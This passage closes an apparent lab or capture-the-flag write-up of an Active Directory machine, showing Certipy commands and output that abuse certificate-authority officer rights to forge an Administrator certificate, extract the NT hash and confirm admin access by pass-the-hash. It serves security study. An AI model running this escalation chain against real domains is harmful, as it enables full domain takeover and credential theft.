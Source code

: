 ```bash
certipy ca -u "Simon.Bowen@intercept.vl" -p "REDACTED" -dc-ip "10.10.152.69" -ca 'intercept-DC01-CA' -add-officer 'Simon.Bowen'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Simon.Bowen' on 'intercept-DC01-CA'
```

```bash
certipy req -username 'Simon.Bowen@intercept.vl' -password 'REDACTED' -dc-ip '10.10.152.69' -ca 'intercept-DC01-CA' -template SubCA -upn 'Administrator@intercept.vl'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 5
Would you like to save the private key? (y/N) y
[*] Saved private key to 5.key
[-] Failed to request certificate

certipy ca -ca 'intercept-DC01-CA' -username 'Simon.Bowen@intercept.vl' -password 'REDACTED' -dc-ip '10.10.152.69' -issue-request 5 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate

certipy req -username 'Simon.Bowen@intercept.vl' -password 'REDACTED' -dc-ip '10.10.152.69' -ca 'intercept-DC01-CA' -retrieve 5
[*] Rerieving certificate with ID 5
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'Administrator@intercept.vl'
[*] Certificate has no object SID
[*] Loaded private key from '5.key'
[*] Saved certificate and private key to 'administrator.pfx'
```
And get the hash of the Administrator :

```bash
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'intercept.vl' -dc-ip 10.10.152.69  
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@intercept.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@intercept.vl': aad3b435b51404eeaad3b435b51404ee:ad9[...]1f

nxc ldap 10.10.152.69 -u 'Administrator' -H 'ad95c338a6cc5729ae7390acbe0ca91f'     
SMB         10.10.152.69    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
LDAP        10.10.152.69    389    DC01             [+] intercept.vl\Administrator:ad9[...]1f (admin)
```
![alt text](../assets/image_intercept/6er.png)

Nice ! sorry if my english was bad and if you have any questions or comments on this write up you can dm me on [instagram](https://instagram.com/eliott.la) or on discord : 'ethicxz.'